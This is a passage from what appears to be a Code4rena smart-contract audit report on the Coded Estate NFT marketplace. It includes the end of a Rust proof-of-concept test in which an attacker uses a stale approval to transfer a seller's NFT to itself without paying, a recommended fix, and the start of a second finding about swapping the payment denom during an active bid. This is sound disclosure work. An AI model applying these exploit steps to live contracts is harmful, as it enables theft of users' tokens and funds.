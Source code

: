 ```rust

    // Attacker is still the approved spender, which opens for multiple attack vector  
    // Attacker invokes `transfer_nft` to transfer the token to themselves
    let transfer_nft_msg: ExecuteMsg<Option<Empty>, Empty> = ExecuteMsg::TransferNft { 
        recipient: ATTACKER.to_string(), 
        token_id: TOKEN_ID.to_string() 
    };
    let res = app.execute_contract(
        Addr::unchecked(ATTACKER),
        contract_addr.clone(),
        &transfer_nft_msg,
        &[],
    );
    assert!(res.is_ok()); // Everyting is ok
    
    // Asserts that Attacker now owns the token
    assert_eq!(query_token_owner(&app, &contract_addr.to_string(), TOKEN_ID), ATTACKER);
    // Asserts that Attacker pays nothing  
    assert_eq!(query_denom_balance(&app, ATTACKER, USDC), 1000);
}
```

3. Run `cargo test h6_cancel_bid_did_not_remove_bidder_from_approval -- --nocapture`.
4. Observe that the test passes, indicating that attacker successfully steal seller's token and pay nothing to seller.

### Recommended Mitigation

Revoke approval of bidder when they cancel the bid.

### Assessed type

Context

**[blockchainstar12 (Coded Estate) disputed](https://github.com/code-423n4/2024-10-coded-estate-findings/issues/6#event-14661902440)**

*Note: For full discussion, see [here](https://github.com/code-423n4/2024-10-coded-estate-findings/issues/6).*

***

## [[H-06] Lack of validation in `setlistforsell` allows changing denom while there is active bid, leading to stealing of other users' funds](https://github.com/code-423n4/2024-10-coded-estate-findings/issues/5)
*Submitted by [nnez](https://github.com/code-423n4/2024-10-coded-estate-findings/issues/5), also found by [adeolu](https://github.com/code-423n4/2024-10-coded-estate-findings/issues/45) and Ch\_301 ([1](https://github.com/code-423n4/2024-10-coded-estate-findings/issues/43), [2](https://github.com/code-423n4/2024-10-coded-estate-findings/issues/33))*

This vulnerability allows attacker to manipulate the token denom during an active bid. By exploiting this bug, attackers can cancel their own bids and receive refunds in a more valuable token than originally used, effectively stealing funds from the contract's pool of user deposits.
